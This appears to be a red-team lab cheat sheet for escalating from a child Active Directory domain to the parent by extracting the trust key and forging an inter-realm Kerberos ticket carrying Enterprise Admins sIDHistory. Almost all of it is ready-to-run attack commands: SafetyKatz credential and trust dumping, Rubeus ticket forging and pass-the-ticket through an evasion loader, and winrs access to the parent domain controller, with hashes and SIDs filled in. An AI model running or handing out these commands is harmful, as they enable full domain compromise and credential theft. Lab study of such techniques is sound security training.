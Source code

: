**Domain Admin privileges are required for the following**

Ultimate goal is to extract **trust key** from `Child-DC` and forge a inter-realm ticket that has the sIDHistory set to `509` so we can impersonate a `Enterprise Admin` and access resources from the Parent Domain

```powershell
.\Loader.exe -path .\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Extract trust key - '`mcorp$` is the trust account
```powershell
.\Loader.exe -path .\SafetyKatz.exe -args "lsadump::evasive-trust /patch" "exit"

.\Loader.exe -path .\SafetyKatz.exe "lsadump::evasive-dcsync /user:dcorp\mcorp$" "exit"

.\Loader.exe -path .\SafetyKatz.exe "lsadump::lsa /patch"
```

Forge inter-realm TGT
```powershell
.\Loader.exe -path .\Rubeus.exe -args evasive-silver /service:krbtgt/DOLLARCORP.MONEYCORP.LOCAL /rc4:3332558f9d3865127606e141e90cfdda /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /ldap /user:Administrator /nowrap
```

| Option              | Description                                                 |
| ------------------- | ----------------------------------------------------------- |
| silver              | Name of the module                                          |
| /rc4                | NTLM hash of the trust key                                  |
| /sid                | SID of the current domain                                   |
| /sids               | SID of the **enterprise admins** group of the parent domain |
| /ldap               | Retrieve PAC information from the current domain DC         |
| /user:Administrator | Username for which the TGT is generated                     |
| /nowrap             | No newlines in the output                                   |

Use forged inter-realm ticket
```powershell
.\Loader.exe -path .\Rubeus.exe -args asktgs /service:http/mcorp-dc.MONEYCORP.LOCAL /dc:mcorp-dc.MONEYCORP.LOCAL /ptt /ticket:<FORGED TICKET>
```

Access Parent Domain DC
```powershell
winrs -r:mcorp-dc.MONEYCORP.LOCAL cmd
```